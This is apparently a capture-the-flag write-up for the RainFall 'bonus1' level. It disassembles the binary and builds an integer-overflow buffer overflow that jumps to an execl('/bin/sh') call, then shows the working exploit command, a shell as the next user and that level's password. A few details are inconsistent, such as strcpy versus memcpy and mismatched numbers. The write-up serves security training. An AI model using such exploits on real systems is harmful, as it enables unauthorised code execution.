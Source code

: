# bonus1

## exploring the binary
```shell
bonus1@RainFall:~$ ./bonus1
Segmentation fault (core dumped)
bonus1@RainFall:~$ ./bonus1 phantom
bonus1@RainFall:~$
```
The binary accepts argument values and crashes when called with no arguments. Let's explore the functions:

## GDB analysis
```shell
Dump of assembler code for function main:
   0x08048424 <+0>:	push   %ebp
   0x08048425 <+1>:	mov    %esp,%ebp
   0x08048427 <+3>:	and    $0xfffffff0,%esp
   0x0804842a <+6>:	sub    $0x40,%esp
   0x0804842d <+9>:	mov    0xc(%ebp),%eax
   0x08048430 <+12>:	add    $0x4,%eax
   0x08048433 <+15>:	mov    (%eax),%eax
   0x08048435 <+17>:	mov    %eax,(%esp)
   0x08048438 <+20>:	call   0x8048360 <atoi@plt>
   0x0804843d <+25>:	mov    %eax,0x3c(%esp)
   0x08048441 <+29>:	cmpl   $0x9,0x3c(%esp)
   0x08048446 <+34>:	jle    0x804844f <main+43>
   0x08048448 <+36>:	mov    $0x1,%eax
   0x0804844d <+41>:	jmp    0x80484a3 <main+127>
   0x0804844f <+43>:	mov    0x3c(%esp),%eax
   0x08048453 <+47>:	lea    0x0(,%eax,4),%ecx
   0x0804845a <+54>:	mov    0xc(%ebp),%eax
   0x0804845d <+57>:	add    $0x8,%eax
   0x08048460 <+60>:	mov    (%eax),%eax
   0x08048462 <+62>:	mov    %eax,%edx
   0x08048464 <+64>:	lea    0x14(%esp),%eax
   0x08048468 <+68>:	mov    %ecx,0x8(%esp)
   0x0804846c <+72>:	mov    %edx,0x4(%esp)
   0x08048470 <+76>:	mov    %eax,(%esp)
   0x08048473 <+79>:	call   0x8048320 <memcpy@plt>
   0x08048478 <+84>:	cmpl   $0x574f4c46,0x3c(%esp)
   0x08048480 <+92>:	jne    0x804849e <main+122>
   0x08048482 <+94>:	movl   $0x0,0x8(%esp)
   0x0804848a <+102>:	movl   $0x8048580,0x4(%esp)
   0x08048492 <+110>:	movl   $0x8048583,(%esp)
   0x08048499 <+117>:	call   0x8048350 <execl@plt>
   0x0804849e <+122>:	mov    $0x0,%eax
   0x080484a3 <+127>:	leave
   0x080484a4 <+128>:	ret
End of assembler dump.
```
We observe that <code>atoi()</code> is invoked on <code>av[1]</code> to convert it into an integer. The resultant value is then stored in memory, offset from the stack pointer, and compared against 9 using <code>jle</code>. Should the number exceed 9, <code>eax</code> is assigned the value 1, triggering a jump to the exit sequence. Otherwise, the <code>atoi()</code> result is multiplied by 4 and later in the function compared to <code>0x574f4c46</code> (1464814662). Another call we observe is to the <code>strcpy()</code> function, where a string from <code>av[2]</code> is combined with the multiplied number.

## buffer overflow
Another call we observe is to the <code>memcpy()</code> function, where a string from <code>av[2]</code> is combined with the multiplied number. Since the copying function doesn't inherently perform boundary checks, we decide that a <code>buffer overflow</code> attack is our way forward. We can determine the offset value as before, but we need to figure out how to significantly increase the value of the multiplied number, since the biggest value we can achieve is 36.

The maximum value for an unsigned 32-bit integer is 4294967295. Dividing this number by 4 gives us 1073741823. This may still be too large, so we decide to decrease the final number by 25.

``` shell
(gdb) run -1073741823 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A'
Starting program: /home/user/bonus1/bonus1 -1073741824 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A'
[Inferior 1 (process 5146) exited normally]
(gdb) run -1073741798 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A'
Starting program: /home/user/bonus1/bonus1 -1073741799 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A'

Program received signal SIGSEGV, Segmentation fault.
0x39624138 in ?? ()
```
The final step is to invoke <code>/bin/bash</code>. We have already observed that the <code>execl()</code> function is called within the <code>main()</code> function, which piqued our interest. Just before this call, two immediate values are pushed onto the stack (<code>%esp</code>), which will ultimately initiate the shell for us:
``` shell
(gdb) x/s 0x8048580
0x8048580:	 "sh"
(gdb) x/s 0x8048583
0x8048583:	 "/bin/sh"
```
Due to this, our exploit jumps to the address <code>0x08048482</code> to continue executing the desired sequence.

## exploit
``` shell
bonus1@RainFall:~$ ./bonus1 -1073741798 $(python -c 'print "F" * 56 + "\x08\x04\x84\x82"[::-1]')
$ whoami
bonus2
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```
